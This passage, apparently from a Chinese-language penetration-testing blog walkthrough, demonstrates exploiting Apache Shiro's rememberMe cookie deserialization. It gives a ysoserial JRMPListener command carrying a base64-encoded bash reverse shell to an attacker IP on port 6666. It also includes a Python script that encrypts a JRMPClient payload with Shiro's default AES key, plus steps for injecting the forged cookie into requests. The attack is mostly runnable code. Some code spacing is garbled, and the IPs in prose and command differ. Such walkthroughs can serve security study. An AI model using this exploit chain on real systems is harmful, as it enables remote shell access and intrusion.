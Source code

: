   
而后通过
```
ysoserial
```

  
工具的JRMP监听6666端口并执行反弹shell指令  
  
**这里我们相当于在攻击机上启动了一个VPS服务，监听7777端口，然后在这个服务上放了一个反弹shell的payload，并用序列化工具ysoserial指定 CommonsCollections5 利用链生成可执行bash -i >& /dev/tcp/192.168.200.131/6666 0>&1命令的序列化数据payload1。当后面有客户端请求服务时，我们搭建的这个JRMP就会返回这段payload1。**  

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener7777CommonsCollections5&#34;bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQo=}|{base64,-d}|{bash,-i}&#34;
```

  
![image-20230419011409003](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5TicybicpnD9XXN02LuqeKEW6ibLMyJCVNJBEcRF2hdYSCZAEEFrxlIUCg/640?wx_fmt=png&from=appmsg "")  
  
接下来去利用密钥伪造**rememberMe**  
字段，脚本如下  

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
defencode_rememberme(command):
    popen = subprocess.Popen(['java','-jar','ysoserial-all.jar','JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad =lambda s: s +((BS -len(s)% BS)*chr(BS -len(s)% BS)).encode()
    key = base64.b64decode(&#34;kPH+bIxk5D2deZiIxcaaaA==&#34;)
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
return base64_ciphertext

if __name__ =='__main__':
    payload = encode_rememberme(sys.argv[1])
print&#34;rememberMe={0}&#34;.format(payload.decode())
```

  
而后运行**python2 shiro.py 192.168.1.129 7777**  
  
![image-20230419191959439](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK56Asyj2hhvtAb9nXd3jqmibOATAJxv0qP9PrhZVsKRnu2G6qwwXlHALw/640?wx_fmt=png&from=appmsg "")  
  
接下来对网站进行抓包，在Cookie中添加我们伪造的**rememberMe**  
参数  
  
![image-20230419185428696](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5krKCy4v5FgHoRCQhORzNWpRfFQOxPlXRjE3aPRG3DwN9VNeL0UuEqw/640?wx_fmt=png&from=appmsg "")  
  